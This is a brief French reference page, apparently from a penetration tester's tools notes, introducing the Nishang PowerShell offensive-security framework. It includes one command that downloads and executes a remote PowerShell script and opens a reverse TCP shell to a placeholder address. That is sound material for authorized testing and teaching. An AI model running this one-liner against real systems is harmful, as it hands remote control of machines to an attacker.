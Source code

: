 ```yaml
---
title: "Nishang"
date: 2025-05-07T15:00:00+02:00
draft: false
tags: ["Outils", "Pentester"]
categories: ["Outils"]
summary: "Nishang"
showToc: true
tocOpen: true
---
```

 Nishang est un framework et un ensemble de scripts et de charges utiles permettant d'utiliser PowerShell pour la sécurité offensive, les tests d'intrusion et le red teaming. Nishang est utile à toutes les phases des tests d'intrusion.
 
```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

https://github.com/samratashok/nishang